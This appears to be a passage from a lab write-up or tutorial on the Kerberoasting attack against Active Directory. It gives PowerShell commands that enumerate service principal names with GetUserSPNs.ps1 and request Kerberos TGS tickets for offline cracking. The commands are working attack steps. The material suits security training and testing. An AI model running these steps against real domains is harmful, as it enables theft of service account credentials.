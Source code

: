 
### 🔑 **3. Kerberoasting Attack**

Kerberoasting is an attack technique that allows an attacker to request encrypted service tickets for service accounts, which can then be cracked offline to recover plaintext credentials.

**📌 Prerequisites:**

* A domain-joined machine and a domain user account (e.g., **compromiseduser**).

**⚙️ Steps:**

1. **Enumerate ServicePrincipalNames (SPNs):**

```powershell
PS C:\Windows\system32> cd C:\Users\<USERNAME>\Downloads\kerberoast-master
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> .\GetUserSPNs.ps1
```

* This script lists all service accounts with SPNs, which can be targeted for ticket extraction.

![SPN Enumeration](/assets/image-9.png)

2. **Request TGS Ticket:**

```powershell
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> Add-Type -AssemblyName System.IdentityModel
PS C:\Users\<USERNAME>\Downloads\kerberoast-master> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "http/Windows10"
```

* This requests a **Kerberos TGS** ticket for the identified service account.

![TGS Ticket Request](/assets/image-10.png)